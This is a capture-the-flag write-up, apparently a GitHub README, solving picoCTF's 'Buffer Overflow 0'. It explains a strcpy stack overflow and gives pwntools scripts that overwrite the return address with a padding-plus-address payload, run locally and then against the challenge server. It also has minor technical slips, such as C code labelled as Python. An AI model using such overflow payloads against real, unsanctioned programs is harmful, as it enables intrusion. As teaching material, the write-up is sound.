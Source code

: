 

![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&size=35&lines=Buffer+Overflow+0)
<br>
![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&weight=500&pause=1000&color=F70000&width=435&lines=Binary+Exploitation)

![Challenge Description](chal_desc.png)

In this challenge we were given an ELF 32 bit executable and its source code. When we run the executable:

![Run ./vuln](run_vulns.png)

Let's examine the source code.
The challenge's name indicates that we're facing a buffer overflow vulnerability. The vulnerable part of the code is :

```python
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
the variable buf2 has a capacity of 16 bytes meanwhile the function ignores its length and copies the content of the argument input which can be arbitrarily long into the variable buf2. That'll cause the program to fill the space destined for the variable input and fills up adjacent places in the memory. These "adjacent spaces" can be very sensitive. Since they control the execution of the program. Let's now take a look at a dangerous function.

```python
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

This function is only written and not called. That seems hopeless! Not a bit! There's something in the memory called EIP register (in the 32bit architecture) which contains the adress of the next instruction that'll be executed. Of course, the whole code is transformed into assembly and instruction has an adress. That's it ! We just need now to implement the exploit.

Let's fire up gdb and look for the adress of the function sigsegv_handler() using the commnad `info functions`
![sigsegv_handler addr](info_functions.png)

It is located at the adress at the adress 0x0000130d
We can use the ![offset calc](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)(Website) to find the offset which is sort of the distance from the variable buf2 in the memory and the EIP register. We find that it is 28. So, we fill 28 bytes in the memory starting from the variable buf2 and followed by the adress of the sigsegv_handler() in shellcode.
We can use the following code in our local machine with a fake flag file to test.

```python
from pwn import *


payload = b"A"*28
payload += p32(0x0000130d)

p = process("./vuln")
p.recv(7)
p.sendline(payload)
p.interactive()

p.close()
``` 

![fake flag](local_exp.png)
<br>
It worked! It printed the fake flag FLAG_FLAG

Now let's try to exploit it remotely and find the flag !
for that we need to modify our python script.

```python
from pwn import *


payload = b"A"*28
payload += p32(0x0000130d)

p = remote("saturn.picoctf.net", 51532)
p.recv(7)
p.sendline(payload)
p.interactive()

p.close()
```
<br>
and we get the final flag !!
![final flag](final_flag.png)
